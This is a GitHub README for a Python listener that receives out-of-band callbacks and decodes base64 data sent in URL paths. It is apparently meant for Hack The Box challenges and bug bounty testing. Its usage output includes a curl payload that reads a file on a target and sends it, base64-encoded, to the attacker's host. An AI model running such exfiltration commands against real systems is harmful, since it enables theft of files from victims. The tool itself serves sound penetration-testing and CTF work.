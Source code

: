 # Catch OOB Reads and Decode b64 in one shot
## decoder.py

Python Script to run http.server on a port of your choosing, catch a cURL command with base64 encoded data and decode the data right in the terminal.  Eliminate the need to copy responses and pipe to base64 -d.  

**Note** When using this with a certain HTB challenge, I did notice that not all requests from the victim machine were coming to me. Based on the vulnerabilty I was exploiting, it might have just been the way the intentionally vulnerable code was designed. However,  I modified the script to stop the server from sending responses and it seemed to produce better results.  In a CTF its probably okay, but if you are planning to use this for bug bounty it might be useful to try and return some sort of User Agent that identifies you.  

```bash
python3 decoder.py -h
Usage: python3 base64-listener.py [port]

python3 decoder.py 9001
[*] Base64 Listener started on port 9001
[*] Make sure YOUR_IP is accessible by the target.
[*] Waiting for incoming Base64 encoded data in URL paths...
[*] Use payload: curl http://YOUR_IP:1050/$(cat /path/to/file | base64 -w 0)


--- Received Base64 String from 10.10.0.15 ---
PCFET0NUWVBFIGh0bWw+CjxodG1sPgo8aGVhZD4KPHRpdGx[...snip...]+CjwvaHRtbD4K
--- Decoded Content ---
<!DOCTYPE html>
<html>
<head>
<title>Welcome to nginx!</title>
<style>
html { color-scheme: light dark; }
body { width: 35em; margin: 0 auto;
font-family: Tahoma, Verdana, Arial, sans-serif; }
</style>
</head>
<body>
<h1>Welcome to nginx!</h1>
<p>If you see this page, the nginx web server is successfully installed and
working. Further configuration is required.</p>
```
